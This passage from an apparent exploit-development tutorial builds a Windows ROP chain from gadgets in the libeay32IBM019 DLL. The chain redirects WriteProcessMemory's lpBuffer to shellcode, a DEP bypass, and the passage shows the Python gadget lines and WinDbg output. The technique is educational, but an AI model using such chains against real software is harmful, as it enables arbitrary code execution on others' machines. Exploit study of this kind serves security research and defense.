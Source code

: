 We need to substract 288 bytes, we only have "add" operations so we add -288.
288 is **0xFFFFFEE0** (https://www.binaryconvert.com/result_signed_int.html?hexadecimal=FFFFFEE0).
This is the ROP chain to move EAX to lpBuffer:
```c
rop += pack("<L", (dllBase + 0x8876d)) # mov ecx, eax ; mov eax, esi ; pop esi ; retn 0x0010
rop += pack("<L", (0x42424242)) # junk into esi
rop += pack("<L", (dllBase + 0x48d8c)) # pop eax ; ret
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0xfffffee0)) # pop into eax -0x120
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
```

Note that, as our gadget performs a pop esi operation and a ret 0x0010 (16 bytes = 4 x32 instructions), we need to add junk for the pop and junk for the ret 0x010. Note how the retn 0x0010 first performs a normal return (therefore we put a valid ROP gadget next) and then does the ESP displacement for 0x0010 (therefore we put 16 bytes of junk in stack).
Now we are pointing to lpBuffer with eax, and ecx points to the shellcode location. Therefore we use the following gadget:
```c
rop += pack("<L", (dllBase + 0x1fd8)) # mov [eax], ecx ; ret
```
lpBuffer is now patched and points to the shellcode location (the 256 bytes offset from ESP we arbitrairly calculated).
Let's see in action:
```c
0:079>  bp libeay32IBM019+0x1fd8
0:079> g
Breakpoint 0 hit
eax=0d60e2ec ebx=05cfc360 ecx=0d60e40c edx=76f62da0 esi=42424242 edi=00669360
eip=01ad1fd8 esp=0d60e354 ebp=01bb401c iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
libeay32IBM019!N98E_CRYPTO_get_mem_ex_functions+0x48:
01ad1fd8 8908            mov     dword ptr [eax],ecx  ds:0023:0d60e2ec={KERNEL32!WriteProcessMemoryStub (765a3ad0)}

0:082> p
eax=0d60e2ec ebx=05cfc360 ecx=0d60e40c edx=76f62da0 esi=42424242 edi=00669360
eip=01ad1fda esp=0d60e354 ebp=01bb401c iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
libeay32IBM019!N98E_CRYPTO_get_mem_ex_functions+0x4a:
01ad1fda c3              ret

0:082> dds eax L1
0d60e2ec  0d60e40c

0:082> dds 0d60e40c
0d60e40c  cccccccc
0d60e410  cccccccc
0d60e414  cccccccc
0d60e418  cccccccc
0d60e41c  cccccccc
0d60e420  cccccccc
```
